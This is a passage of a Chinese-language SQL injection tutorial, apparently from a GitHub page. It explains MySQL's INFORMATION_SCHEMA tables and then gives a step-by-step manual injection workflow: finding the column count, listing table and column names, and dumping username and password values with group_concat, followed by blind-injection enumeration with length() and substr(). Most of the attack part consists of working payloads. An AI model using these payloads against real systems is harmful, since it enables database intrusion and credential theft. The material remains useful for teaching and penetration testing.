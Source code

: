     * 盲注
        # 延时注入
        # 布尔注入
    * UNION
#### 编码问题
    宽字节注入(GBK)

> <h2 id="3">0x03 Mysql数据库的特点</h2>
```
主要是说MySQL 5.0以上版本的INFORMATION_SCHEMA这个表，它里面存储了MYSQL所维护的所有其他数据库的信息，如数据库名，数据库的表，表中的字段，以及字段值。

下面写一下主要的表
    * SCHEMATA 存储mysql所有数据库的基本信息，包括数据库名
        # SCHEMA_NAME 这个字段存储了数据库名
    * TABLES 存储mysql中所有表的信息
        # TABLE_SCHEMA 表所在的数据库
        # TABLE_NAME 表名
    * COLUMNS 存储mysql中所有列的信息
        # TABLE_NAME 字段所在的表
        # COLUMN_NAME 字段名
```

> <h2 id=4>0x04 手工注入流程</h2>
* 先找到注入点，根据情况进行注入
#### 假设注入点存在(mysql)
1. 获取字段数
```sql
1. order by n #通过不断改变n的值,来观察反应获取字段数
2. union select n1,n2,... #通过不断增加字段观察页面反应获取字段数
```
2. 获取当前数据库名（假设字段数为2）
```sql
1. select 1,database()
```
3. 获取当前库中的表
```sql
1. select 1,group_concat(table_name) from information_schema.tables where table_schema = database()
# group_concat()这个函数可以把索引到的数据拼接成一组然后返回。
2. select null,null,...,table_name from information_schema.tables where table_schema=database() limit 0,1
#这种情况下的话，一次只会返回一条我们需要的数据，那就要修改Limit后面的两个数字，没获取一次就全部+1
```
4. 获取当前表中的字段（假设这里已经获取到了users表）
```sql
select 1,group_concat(column_name) from infromation_schema.columns where table_schema = database() and table_name = "users"
```
5. 获取各个字段的值(假设获取到了username，password两个字段)
```sql
select 1,group_concat(username,'-',password) from users
```
* 上面其实主要是用于可以看到数据的注入方法，例如报错注入，union注入，如果碰到盲注的话，方法可能会稍有不同
#### 盲注方法
```sql
#获取库名，表名，字段名什么的还是用上面那些方法，不过我们要通过枚举获取数据，下面说下方法，这里假设以获取表名为例

select 1,length(table_name) from information_schema.tables where table_schema = database() limit 0,1;
#先通过length()方法获取第一条数据的长度，知道长度之后，方便枚举

select 1,substr( (select table_name from information_schema.tables where table_schema = database() limit 0,1 ) ,1,1)
```